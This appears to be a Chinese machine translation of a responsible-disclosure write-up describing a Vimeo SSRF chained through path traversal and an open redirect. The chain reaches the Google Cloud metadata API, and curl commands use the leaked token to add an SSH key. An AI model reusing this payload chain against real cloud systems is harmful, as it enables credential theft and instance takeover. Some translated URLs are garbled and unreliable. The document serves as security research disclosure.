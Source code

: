 # Vimeo SSRF 与代码执行潜力。

> 原文：<https://infosecwriteups.com/vimeo-ssrf-with-code-execution-potential-68c774ba7c1e?source=collection_archive---------0----------------------->

最近我在 Vimeo 上发现了一个半响应的 SSRF，具有代码执行的可能性。这篇博文解释了我是如何发现并利用它的。所以让我们开始吧。

## **背景。**

Vimeo 为他们的 API 提供了一个名为 [API Playground](https://developer.vimeo.com/api/reference) 的 API 控制台，使用这个 web 应用发出的请求是从服务器端完成的。以贝娄请求为例。

![](img/7cb997443eb8928bda2b5354d361b3a2.png)

基本请求

这个请求应该向服务器端发出 GET 请求

> **https://api.vimeo.com/users/{user_id}/videos/{video_id}**

如果你仔细观察请求，你会发现我们在这里控制了很多东西，首先是`**uri**` 参数，它是要在端点上命中的端点，即在本例中是`**/users/{user_id}/videos/{video_id}**`，请求方法，即在本例中被设置为`**GET**` ，如果请求方法是 post，这些参数应该是 POST 参数。user_id & video_id 是一种变量，其值在`**segments**` 参数中定义。

## **服务器端 HTTP 请求中的路径遍历。**

我首先尝试将 URI 参数更改为我的自定义路径，但是 URI 的任何更改都会导致 403，这意味着他们允许一组 API 端点。然而，改变诸如 user_id & videos_id 这样的变量的值是可能的，因为它们是有意的，并且因为这些值反映在 URL 的路径中。传递`**../../../**` 会导致请求到`**api.vimeo.com**`
的根下面是什么情况。

> `**URL.parse(“https://api.vimeo.com/users/1122/videos/../../../attacker”)**`

结果:[**https://api.vimeo.com/attacker**](https://api.vimeo.com/attacker)

![](img/94f08b1aad3afea412855eca26879e91.png)

服务器端 HTTP 请求中的路径遍历

如您所见，在响应中列出了`**api.vimeo.com**`的所有端点，这是`**api.vimeo.com**`的根响应，如果您发出认证请求(带有授权头)。

## **现在怎么办？我们还在** `**api.vimeo.com**` **主机上，我们怎么逃呢？**

嗯，我认为这是遵循 HTTP 30X 重定向，这是一个很长的故事需要一点逻辑思维。

回到正题，现在我知道这是遵循 HTTP 重定向，我们很好地前进，我们需要一个开放的重定向，以便我们可以将服务器重定向到我们的受控资产。

## **优秀的旧内容发现…**

一分钟的内容发现，我在`api.vimeo.com`上遇到一个端点，它通过`vimeo.com`上的受控路径重定向到`vimeo.com`

> **https://api.vimeo.com/m/something**

![](img/e12f16b3391c7a2ab14723152871f23d.png)

api.vimeo.com 到 vimeo.com

酷，现在我们有一个很大的范围来寻找一个开放重定向，我在 vimeo.com 有一个不太有用的开放重定向，我不会透露它的细节，但让我们假设它是这样的

> [https://vimeo/vulnerable/open/redirect？URL = https://attack . com](https://vimeo/vulnerable/open/redirect?url=https://attacker.com)

这使得 302 号公路转向 attacker.com，

## **链已完成，可重定向至攻击者资产..**

将服务器重定向到我们的受控资产的最终有效负载是

> ../../../m/易受攻击/打开/重定向？URL = https://attack . com

在 video_id 内部传递这个值将会以这种方式解析 URL

> https://api.vimeo.com/users/1122/videos/../../../m/易受攻击/打开/重定向？URL = https://attack . com

解析后变成了

> [https://api.vimeo.com/m/vulnerable/open/redirect?URL = https://attack . com](https://api.vimeo.com/m/vulnerable/open/redirect?url=https://attacker.com)

进行 HTTP 重定向并跟踪至

> [https://vimeo.com/vulnerable/open/redirect?URL = https://attack . com](https://vimeo.com/vulnerable/open/redirect?url=https://attacker.com)

进行了另一次 HTTP 重定向并跟踪到

> [https://attacker.com](https://vimeo.com/vulnerable/open/redirect?url=https://attacker.com)

![](img/41c67ab1fb841379838d1be52e01aae1.png)

SSRF 实现，编辑关于开放重定向和我的域的细节。

服务器期待一个 JSON 响应，解析它并在响应中显示。

## **剥削..**

由于 Vimeo 基础设施在 Google cloud 上，我的第一个尝试是使用 Google metadata API。我采用了安德烈·巴普蒂斯塔的方法

此端点为我们提供服务帐户令牌。

> [**http://metadata . Google . internal/computeMetadata/v1 beta 1/instance/service-accounts/default/token**](http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token?fbclid=IwAR1EUeeTJhWLwfOb1-JXW1AF13QfJNXTBnuF7X1Uj1iXZ9FVjKz-F1U-CEY)**？alt=json**

```
{ “headers”: [ “HTTP/1.1 200”, “Content-Type: application/json”, “Host: api.vimeo.com” ], “code”: 200, “body”: { “access_token”: “ya29.c.EmKeBq9XXDWtXXXXXXXXecIkeR0dFkGT0rJSA”, “expires_in”: 2631, “token_type”: “Bearer” } }
```

**令牌范围**

```
$ curl https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=ya29.XXXXXKuXXXXXXXkGT0rJSA Response:{ "issued_to": "101302079XXXXX", "audience": "10130207XXXXX", "scope": "https://www.googleapis.com/auth/compute https://www.googleapis.com/auth/logging.write https://www.googleapis.com/auth/devstorage.read_write https://www.googleapis.com/auth/monitoring", "expires_in": 2443, "access_type": "offline" }
```

然后，我可以使用这个令牌将我的公共 SSH 密钥添加到实例中，然后通过我的私有密钥进行连接

```
$ curl -X POST “https://www.googleapis.com/compute/v1/projects/1042377752888/setCommonInstanceMetadata" -H “Authorization: Bearer ya29.c.EmKeBq9XI09_1HK1XXXXXXXXT0rJSA” -H “Content-Type: application/json” — data ‘{“items”: [{“key”: “harsh-bugdiscloseguys”, “value”: “harsh-ssrf”}]} Response: { “kind”: “compute#operation”, “id”: “63228127XXXXXX”, “name”: “operation-XXXXXXXXXXXXXXXXXX”, “operationType”: “compute.projects.setCommonInstanceMetadata”, “targetLink”: “https://www.googleapis.com/compute/v1/projects/vimeo-XXXXX", “targetId”: “10423XXXXXXXX”, “status”: “RUNNING”, “user”: “10423XXXXXXXX-compute@developer.gserviceaccount.com”, “progress”: 0, “insertTime”: “2019–01–27T15:50:11.598–08:00”, “startTime”: “2019–01–27T15:50:11.599–08:00”, “selfLink”: “https://www.googleapis.com/compute/v1/projects/vimeo-XXXXX/global/operations/operation-XXXXXX"}
```

还有…

![](img/bd5f173a34c77bb0ec05a222735404d3.png)

添加了密钥

![](img/b1c65d4f4aa510f5d8dd74e0ee9c4bf8.png)

*放开我

然而，SSH 端口只在内部网络上开放:((但这足以证明在内部这可以升级到 shell 访问。

Kubernetes 密钥也是从元数据 API 中提取的，但是由于某种原因，我无法使用它们，尽管 Vimeo 团队确认它们是有效的。

***由于我的工作&涉及 Vimeo，我被允许比正常情况下更深入地研究。***

就这样了，伙计们。我希望你喜欢这个。非常感谢分享/转发，对此有任何问题吗？DM @ [rootxharsh](https://twitter.com/rootxharsh)

## **感谢；**

**Vimeo 团队**允许披露此问题。

[**安德烈(0xacb)**](https://twitter.com/0xACB) 为他的[牛逼的报告](https://hackerone.com/reports/341876)

[**布雷特(bbuerhaus)**](https://twitter.com/bbuerhaus) 为他写起了关于[这个 SSRF](https://buer.haus/2017/03/09/airbnb-chaining-third-party-open-redirect-into-server-side-request-forgery-ssrf-via-liveperson-chat/) (他和[本](https://twitter.com/NahamSec)都有一些点燃的 AF 写起)

## 时间表

1 月 28 日清晨:初步发现。

1 月 28 日:由 HackerOne 团队进行分类

1 月 28 日:Vimeo 团队奖励了最初的 100 美元，并推出了一个临时补丁。

1 月 30 日/31 日:推出永久修复

2 月 1 日:奖励 4900 美元。